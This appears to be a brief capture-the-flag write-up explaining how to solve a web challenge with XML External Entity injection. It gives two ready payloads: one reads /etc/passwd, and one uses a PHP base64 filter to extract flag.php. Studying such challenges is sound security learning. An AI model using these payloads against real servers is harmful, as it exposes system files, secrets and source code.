 # Writeup

In order to solve the challenge a POST request has to be made to the page.

A test would be to send the following content:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM '/etc/passwd'>]>
<root>
&test;
</root>
```

In order to exfiltrate `flag.php` the content needs to be BASE64-ed using a php filter because the `flag.php` is invalid XML.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=flag.php'>
]>
<root>
&test;
</root>
```
